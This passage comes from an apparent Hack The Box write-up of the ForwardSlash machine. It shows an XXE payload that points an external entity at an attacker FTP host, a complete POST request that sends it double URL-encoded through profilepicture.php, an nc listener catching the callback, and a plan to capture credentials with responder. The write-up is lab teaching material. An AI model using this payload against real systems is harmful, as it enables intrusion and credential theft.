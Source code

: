
To make that payload work, I double url-encoded it. When it reached
`profilepicture.php`, it will decode the payload. If I only encoded once, the
resulting payload wouldn’t be a valid url, with spaces and `?` character. But
in double encoded, that resulting payload is still encoded.

I updated the payload to try FTP:

    
    
    <?xml version="1.0" ?>
    <!DOCTYPE root [
    <!ENTITY % ext SYSTEM "ftp://10.10.14.24/"> %ext;
    ]>
    <r></r>
    

I send it:

    
    
    POST /profilepicture.php HTTP/1.1
    Host: backup.forwardslash.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://backup.forwardslash.htb/profilepicture.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 573
    Connection: close
    Cookie: PHPSESSID=q0gqh5u3ak0hltppu9jq91iu0a
    Upgrade-Insecure-Requests: 1
    Pragma: no-cache
    Cache-Control: no-cache
    
    url=http://backup.forwardslash.htb/dev/index.php?xml=%253c%253f%2578%256d%256c%2520%2576%2565%2572%2573%2569%256f%256e%253d%2522%2531%252e%2530%2522%2520%253f%253e%250d%250a%253c%2521%2544%254f%2543%2554%2559%2550%2545%2520%2572%256f%256f%2574%2520%255b%250d%250a%253c%2521%2545%254e%2554%2549%2554%2559%2520%2525%2520%2565%2578%2574%2520%2553%2559%2553%2554%2545%254d%2520%2522%2566%2574%2570%253a%252f%252f%2531%2530%252e%2531%2530%252e%2531%2534%252e%2533%2534%252f%2522%253e%2520%2525%2565%2578%2574%253b%250d%250a%255d%253e%250d%250a%253c%2572%253e%253c%252f%2572%253e
    

And I get a connection at `nc`:

    
    
    root@kali# nc -lnvp 21
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::21
    Ncat: Listening on 0.0.0.0:21
    Ncat: Connection from 10.10.10.183.
    Ncat: Connection from 10.10.10.183:37392.
    

I could send back the strings that an FTP server would send, or I can just run
`responder`. I’ll start it and send again in Repeater, and it captures the
username and password:
